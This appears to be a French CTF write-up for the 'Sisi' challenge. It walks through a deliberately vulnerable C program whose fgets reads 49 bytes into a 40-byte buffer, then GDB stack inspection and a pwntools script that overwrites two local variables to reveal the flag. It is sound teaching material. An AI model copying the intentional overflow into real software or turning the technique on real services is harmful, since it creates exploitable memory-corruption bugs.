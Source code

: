# Sisi

![sisi](sisi.png)

## Write-Up

### Première exécution

Les interactions avec le challenge sont assez simples :
- L'accès à l'application se fait via un socket réseau
- Le programme nous renvoit une chaîne de caractères
- Le programme lit un input
- Le programme nous dit qu'on est mauvais
- Le programme quitte

```bash
$ nc challs.hackagou.nc 5005
Bienvenue sur le portail d'Open NC :)

Merci
Malheureusement, vous êtes mauvais...
```

### Analyse statique

Le challenge nous permet de télécharger le code source du binaire à exploiter sur le serveur.

Code simpliste :
- Deux variables sont définies, check et key
- Un buffer de 40 octets est défini mais la fonction fgets peut en recevoir 49, il y a sûrement un buffer overflow en vue
- Vérification des 2 variables check et key avec des valeurs inversées
- Si c'est exécution de `cat flag.txt`
- Sinon sortie du programme

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
     
int main()
{
  setvbuf(stdout, NULL, _IONBF, 0);
  
  int check=0xbebebeef;
  int key=0xcafedead;
  char buf[40];
  
  puts("Bienvenue sur le portail d'Open NC :)\n");
  fgets(buf,49,stdin);
     
  if ((check==0xcafedead) && (key==0xbebebeef))
   {
     puts("Bien joué jeune padawan, as-tu atteint ton but ?!\n");
     system("/usr/bin/cat flag.txt");
     puts("Déconnexion...\n");
   }
  else
   {
     printf("Malheureusement, vous êtes mauvais...\n");
   }
   return 0;
}

// gcc -Wall -fno-stack-protector -no-pie -o sisi sisi.c
```

La commande de compilation est fournie, en compilant avec ces paramètres, on voit que l'exécution de code depuis la stack est impossible :

```bash
$ checksec sisi
[*] '/home/opennc/sisi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Exploit

Avec tout ça, on conclut rapidement que c'est un buffer overflow dont le but est d'écraser les valeurs des variables check et key :
- Remplir les 40 octets du buffer buffer
- Ecrire les valeurs des variables pour que le check soit juste, 8 octets au total

Commençons par regarder comment sont organisées les variables check et key dans la stack. Pour cela, nous mettons un breakpoint sur le check dans GDB et entrons une input "normale".

<pre><code>$ gdb ./sisi
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   [..]
   0x00000000004011f0 <+90>:	call   0x401090 <fgets@plt>
   <b><ins>0x00000000004011f5 <+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead</ins></b>
   0x00000000004011fc <+102>:	jne    0x401236 <main+160>
   0x00000000004011fe <+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x0000000000401205 <+111>:	jne    0x401236 <main+160>
   [...]
End of assembler dump.
gdb-peda$ break *0x00000000004011f5
Breakpoint 1 at 0x4011f5
gdb-peda$ run
Starting program: /home/yoan/Documents/Dev/CTF-Making/OpenNC2023/sisi/sisi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Bienvenue sur le portail d'Open NC :)

MonInput

[...]

[-------------------------------------code-------------------------------------]
   0x4011e8 <main+82>:	mov    esi,0x31
   0x4011ed <main+87>:	mov    rdi,rax
   0x4011f0 <main+90>:	call   0x401090 <fgets@plt>
=> 0x4011f5 <main+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead
   0x4011fc <main+102>:	jne    0x401236 <main+160>
   0x4011fe <main+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x401205 <main+111>:	jne    0x401236 <main+160>
   0x401207 <main+113>:	lea    rax,[rip+0xe22]        # 0x402030
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 ("MonInput\n")
0008| 0x7fffffffdc38 --> 0xa ('\n')
0016| 0x7fffffffdc40 --> 0x0 
0024| 0x7fffffffdc48 --> 0x0 
0032| 0x7fffffffdc50 --> 0x0 
<b><ins>0040| 0x7fffffffdc58 --> 0xbebebeefcafedead</b></ins>
0048| 0x7fffffffdc60 --> 0x1 
0056| 0x7fffffffdc68 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011f5 in main ()</code></pre>

Nous voyons que les valeurs de check et key sont bien à partir du 40ème octet. Essayons de les écraser avec des valeurs arbitraires.

<pre><code>gdb-peda$ run
Starting program: /home/yoan/Documents/Dev/CTF-Making/OpenNC2023/sisi/sisi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Bienvenue sur le portail d'Open NC :)

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC

[...]
[-------------------------------------code-------------------------------------]
   0x4011e8 <main+82>:	mov    esi,0x31
   0x4011ed <main+87>:	mov    rdi,rax
   0x4011f0 <main+90>:	call   0x401090 <fgets@plt>
=> 0x4011f5 <main+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead
   0x4011fc <main+102>:	jne    0x401236 <main+160>
   0x4011fe <main+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x401205 <main+111>:	jne    0x401236 <main+160>
   0x401207 <main+113>:	lea    rax,[rip+0xe22]        # 0x402030
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 ('A' <repeats 40 times>, "BBBBCCCC")
0008| 0x7fffffffdc38 ('A' <repeats 32 times>, "BBBBCCCC")
0016| 0x7fffffffdc40 ('A' <repeats 24 times>, "BBBBCCCC")
0024| 0x7fffffffdc48 ('A' <repeats 16 times>, "BBBBCCCC")
0032| 0x7fffffffdc50 ("AAAAAAAABBBBCCCC")
<b><ins>0040| 0x7fffffffdc58 ("BBBBCCCC")</b></ins>
0048| 0x7fffffffdc60 --> 0x0 
0056| 0x7fffffffdc68 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011f5 in main ()
</code></pre>

Nos valeurs BBBB et CCCC sont bien écrites en lieu et place des valeurs de check et key.

L'organisation en mémoire étant en little-endian, les valeurs doivent être écrites en respectant cette convention.

Ainsi, le code d'exploitation en utilisant pwntools est le suivant :

```python
#!/usr/bin/env python3

from pwn import *

conn = remote('challs.hackagou.nc', 5005)
conn.recvuntil(b'\n\n')
log.success('Received lines')
conn.send(b'A'*40 + b'\xef\xbe\xbe\xbe\xad\xde\xfe\xca')
log.success('Payload sent')
conn.interactive()
```

```
$ python3 pwn-sisi.py
[+] Opening connection to challs.hackagou.nc on port 5005: Done
[+] Received lines
[+] Payload sent
[*] Switching to interactive mode
Bien joué jeune padawan, as-tu atteint ton but ?!

OPENNC{H4cK4g0u_C357_34sY}
Déconnexion...

[*] Got EOF while reading in interactive
```
